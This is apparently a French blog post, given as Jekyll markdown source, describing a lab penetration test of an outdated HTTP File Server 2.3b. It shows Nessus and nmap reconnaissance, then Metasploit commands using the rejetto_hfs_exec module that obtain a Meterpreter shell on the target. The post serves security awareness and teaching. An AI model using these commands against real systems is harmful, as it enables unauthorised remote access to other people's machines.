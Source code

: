 ```yaml
---
layout: post
title:  "Test d'intrusion sur un HTTP File Server"
date:   2021-11-01
last-update: 
categories: securite
tags: http pentesting hfs
image: /assets/article/pentest/hfs/hfs.PNG
description: Présentation d'un test d'intrusion sur une ancienne version de HTTP File Server afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```


> Cet article présente un test d'intrusion sur une ancienne version de HTTP File Server afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
>
> Tous les exemples montrés sur cet article l'ont été sur des machines de laboratoires.

**HTTP File Server** abrégé HFS permet d'envoyer et de recevoir des fichiers en utilisant le protocole HTTP.
Le 31 octobre 2021, la dernière version était 2.3m.

Avec une ancienne version, la 2.3 b, il était possible d'obtenir un shell sur la machine avec metasploit.



## Reconnaissance

Lors d'une 1ère phase de reconnaissance, en lançant un scan avec Nessus, celui-ci a trouvé qu'un serveur HTTP HFS était installé à l'adresse IP <IP server> avec le port 80.

Petite remarques : cette hôte n'était pas détecté en lançant le scan nmap suivant : `sudo nmap -O <IP server>

![hfs-recon]({{site.url_complet}}/assets/article/pentest/hfs/hfs-recon.PNG)



On peut vérifier la présence du serveur en se connectant avec son navigateur. On arrive alors sur la page principale d'HFS.

On peut voir en bas que la version est 2.3. A ce stade, il n'est pas encore possible d'être sûr à 100% que cette version est vulnérable

![hfs]({{site.url_complet}}/assets/article/pentest/hfs/hfs.PNG)

## Exploit

En faisant une recherche avec google, un module metasploit efficace contre la version 2.3 b est disponible

Documentation : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)

Il suffit alors de lancer metasploit, d'effectuer la configuration des hôtes et de lancer l'exploit

```bash
use use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <IP server>  #Target
set LHOST <IP localhost> #Local host ip
```

Bingo, la machine était bien vulnérable à l'exploit. On obtient par conséquent un shell sur la machine permettant de lire les fichiers s'y trouvant



![meterpreter-result]({{site.url_complet}}/assets/article/pentest/hfs/meterpreter-result.PNG)

## Source :

- Documentation metasploit : [www.rapid7.com - rejetto_hfs_exec/](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)
- Site officiel de l'éditeur : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)
